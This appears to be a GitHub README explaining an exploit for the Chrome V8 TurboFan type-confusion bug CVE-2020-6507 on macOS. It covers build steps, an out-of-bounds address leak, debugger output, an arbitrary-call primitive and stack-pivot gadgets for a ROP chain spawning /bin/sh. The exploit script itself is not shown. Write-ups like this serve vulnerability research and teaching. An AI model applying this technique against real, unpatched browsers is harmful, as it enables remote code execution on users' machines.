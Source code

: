 # Chrome RCE CVE-2020-6507 on macOS

**Target OS:** macOS 11.2.1  
**V8 Version:** 8.5.51  
**V8 Commit:** 64cadfcf4a56c0b3b9d3b5cc00905483850d6559

## Vulnerability Overview

During an optimization phase in the V8 JIT compiler (TurboFan) it is possible to trigger a type confusion on an JSArray array length leading to an out of bounds read/write using the corrupted JSArray. Additional details around the root cause can be located [here](https://bugs.chromium.org/p/project-zero/issues/detail?id=2046) and [here](https://www.elttam.com/blog/simple-bugs-with-complex-exploits/#turbofan).

## Building V8 for macOS

* Install depot_tools
* fetch v8
* git checkout version (v8 commit)
* gclient sync
* build
	* ninja -C ./out.gn/x64.release *# Release version*
	* ninja -C ./out.gn/x64.debug *# Debug version*

**Note:** Modify the `./build/mac/find_sdk.py` to ensure the V8 locates and compiles with the correct macOS SDK. 

The following line should be corrected to:

```
sdks = [re.findall('^MacOSX(\d+\.\d+)\.sdk$', s) for s in os.listdir(sdk_dir)]
```

You can find the most updated `find_sdk.py` using the Chromium Code Search tool located [here](https://source.chromium.org/chromium/chromium/src/+/master:build/mac/find_sdk.py?q=find_sdk.py&ss=chromium).


## Exploit Overview

During exploitation, when creating a **VERY** (`0x414141414141`) large allocation of an ArrayBuffer, V8 would allocate on a very low heap address for the BackingStore in order to hold such a large allocation. While abusing the out of bounds read/write of the corrupted array length, it was found that at 0x8 past the bounds of the array, a very similar address was discovered. This address would always be - 0x100000000 of the the large ArrayBuffer's BackingStore pointer. By adding 0x100000000 to the leaked address (offset 0x8), it is possible to reliability locate the large ArrayBuffer's BackingStore pointer. 

```
[*] Triggering JIT Optimization
[*] OOB.length = 0x12121212
[*] Searching...
0x0000000000000000
0x0000000000000000
0x0000000000000000
0x0000414141414151
0x0000414145414151
0x0000414141414151
0x0000000000000000
0x0000000100a15673
0x000016c200000000 <--- LEAKED TARGET ADDRESS (+ 0x100000000)
0x00007ffeefb088d0
0x00007ffeefb088d0
0x00007ffeefb088d0
0x00007ffeefb088d0
0x0000000000000000
0x0000000000000000
0x000016c208040121
0x000016c20804021d
0x000016c208040245
0x000016c20804026d
0x000016c20804030d
DebugPrint: 0x16c2082231d5: [JSArrayBuffer] in OldSpace
 - map: 0x16c208241189 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x16c20820792d <Object map = 0x16c2082411b1>
 - elements: 0x16c2080406e9 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 0x16c300000000 <--- TARGET ARRAY BUFFER BACKING STORE
 - byte_length: 71748523475265
 - detachable
 - properties: 0x16c2080406e9 <FixedArray[0]> {}
 - embedder fields = {
    0, aligned pointer: 0x0
    0, aligned pointer: 0x0
 }
0x16c208241189: [Map]
 - type: JS_ARRAY_BUFFER_TYPE
 - instance size: 56
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x16c20804030d <undefined>
 - prototype_validity cell: 0x16c208180451 <Cell value= 1>
 - instance descriptors (own) #0: 0x16c2080401b5 <DescriptorArray[0]>
 - prototype: 0x16c20820792d <Object map = 0x16c2082411b1>
 - constructor: 0x16c20820785d <JSFunction ArrayBuffer (sfi = 0x16c208188131)>
 - dependent code: 0x16c2080401ed <Other heap object (WEAK_FIXED_ARRAY_TYPE)>
 - construction counter: 0
```

Using this information, it was possible to create a reliable primitive. At offset 778 past the corrupted array, contained a controlled pointer to the `Builtins_InterpreterEntryTrampoline` function and then a `call`. Since `r15` was a controlled value, and `8*r11` were used to index the address of `r15`, it was possible to create an arbitrary `call` primitive by supplying `r15` with a controlled address (offset 778). This address would be the BackingStore pointer of the large ArrayBuffer. Once the value of `[r15 + 8*r11]` was moved into `rcx`, `rcx` will be called with a controlled address. By pointing `rcx` back into an index of the controlled ArrayBuffer's BackingStore, `rcx` can be used to kick off a ROP chain to execute `/bin/sh`.

```
Process 18524 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=EXC_I386_GPFLT)
    frame #0: 0x0000000100a1e94f d8`Builtins_InterpreterEntryTrampoline + 207
d8`Builtins_InterpreterEntryTrampoline:
->  0x100a1e94f <+207>: mov    rcx, qword ptr [r15 + 8*r11]
    0x100a1e953 <+211>: call   rcx
    0x100a1e955 <+213>: mov    r14, qword ptr [rbp - 0x18]
    0x100a1e959 <+217>: movsxd r9, dword ptr [rbp - 0x20]
```

```
(lldb) register read
General Purpose Registers:
       rax = 0x00000fb30804030d
       rbx = 0x000000000000005e
       rcx = 0x0000000100d05a48  d8`v8::internal::interpreter::Bytecodes::kBytecodeSizes + 728
       rdx = 0x0000000000000082
       rdi = 0x00000fb308213891
       rsi = 0x00000fb308213805
       rbp = 0x00007ffeefbfec90
       rsp = 0x00007ffeefbfec18
        r8 = 0x00000fb3082137e1
        r9 = 0x0000000000000b8a
       r10 = 0x0000000000000003
       r11 = 0x0000000000000026
       r12 = 0x0000000000000004
       r13 = 0x00000fb300000000
       r14 = 0x00000fb308212aed
       r15 = 0x4141414141414000
       rip = 0x0000000100a1e94f  d8`Builtins_InterpreterEntryTrampoline + 207
    rflags = 0x0000000000010202
        cs = 0x000000000000002b
        fs = 0x0000000000000000
        gs = 0x0000000000000000
```

By utilizing additional addresses leaked using the corrupted array, it was possible to resolve addresses of additional dylibs needed to create the ROP chain. The following dylibs were leaked and resolved. 

```
libc++.dylib
libsystem_kernel.dylib
libsystem_platform.dylib
```

Finally, utilizing a series of ROP, COP & JOP gadgets, it was possible to pivot the stack back into the controlled ArrayBuffer's BackingStore to execute a ROP chain to `execve()` to execute `/bin/sh`.

**Stack Pivot:**

```
mov rdi, r15 call __simple_sappend
mov rsp, qword [rdi+0x48]; mov rbp, qword [rdi+0x40]; xor eax, eax; jmp qword [rdi+0x90]
```

**Code Execution:**

![](./img/code_execution.png)

## Conclusion

I thought this was a very interesting way to exploit this vulnerability in V8 as I have not seen this exploitation method used before. Even more interesting, code execution was achieved while only utilizing a relative read/write primitive. 

